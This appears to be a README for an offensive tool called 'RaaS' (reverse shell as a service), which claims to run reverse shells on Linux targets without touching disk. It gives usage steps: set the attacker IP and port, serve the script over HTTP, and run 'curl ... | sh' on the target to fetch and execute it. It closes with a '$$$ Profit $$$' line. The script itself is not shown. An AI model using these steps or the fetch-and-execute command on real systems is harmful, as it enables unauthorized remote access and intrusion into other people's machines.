 # RaaS
Reverse shell as a Service script that executes all the different reverse shells on Linux systems without touching disk on the target system.

# Usage
1. Change IP and PORT variables accordingly

2. Host the file on your attacking system

   $ python3 -m http.server 8080

3. Grab the file using curl and execute it directly

   $ curl http://127.0.0.1:8080 | sh

4. $$$ Profit $$$
